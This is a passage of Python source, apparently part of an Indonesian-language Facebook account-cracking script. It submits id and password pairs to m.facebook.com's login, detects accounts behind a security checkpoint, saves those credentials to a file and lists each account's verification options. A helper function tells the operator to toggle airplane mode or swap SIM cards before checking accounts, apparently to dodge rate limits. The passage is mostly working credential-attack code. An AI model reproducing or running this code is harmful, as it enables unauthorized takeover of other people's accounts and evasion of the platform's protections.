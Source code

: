 		hi = ses.get('https://m.facebook.com')

		ho = sop(ses.post('https://m.facebook.com/login.php', data={'email':idf,'pass':pw,'login':'submit'}, headers=head, allow_redirects=True).text,'html.parser')

		jo = ho.find('form')

		data = {}

		lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']

		for anj in jo('input'):

			if anj.get('name') in lion:

				data.update({anj.get('name'):anj.get('value')})

		kent = sop(ses.post('https://m.facebook.com'+str(jo['action']), data=data, headers=head).text,'html.parser')

		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))

		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

		cp+=1

		opsi = kent.find_all('option')

		if len(opsi)==0:

			print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/M%s)'%(hh,x))

		else:

			for opsii in opsi:

				print('\r%s---> %s%s'%(kk,opsii.text,x))

	except Exception as c:

		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))

		print('\r%s---> Tidak Dapat Mengecek Opsi (Cek Login Di Lite/M)%s'%(u,x))

		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

		cp+=1



# OPSI CEKER

def cek_opsi():

	c = len(akun)

	hu = 'Terdapat %s Akun Untuk Dicek\nSebelum Mulai, Mode Pesawat/Ubah Kartu Sim Terlebih Dahulu'%(c)

	cetak(nel(hu, title='CEK OPSI'))

	input(x+'['+h+'•'+x+'] Mulai')

	cek = '# PROSES CEK OPSI DIMULAI'
